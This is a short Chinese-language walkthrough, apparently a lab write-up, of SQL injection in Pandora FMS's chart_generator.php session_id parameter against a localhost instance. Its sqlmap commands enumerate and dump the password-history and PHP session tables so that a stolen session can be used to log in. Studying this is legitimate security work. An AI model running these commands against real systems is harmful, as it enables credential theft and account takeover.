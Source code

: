 #### 列名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history --columns  --threads 10

```

![image-20250403204812339](Pandora/image-20250403204812339.png)

拿到密码之后破解不了，还有个session表，尝试替换session登录

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php --columns --dump  --threads 10
```

![image-20250405163143411](Pandora/image-20250405163143411.png)

#### 数据

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tpassword_history -C "id_pass,id_user,password" --dump  --threads 10

```

![image-20250403204832190](Pandora/image-20250403204832190.png)
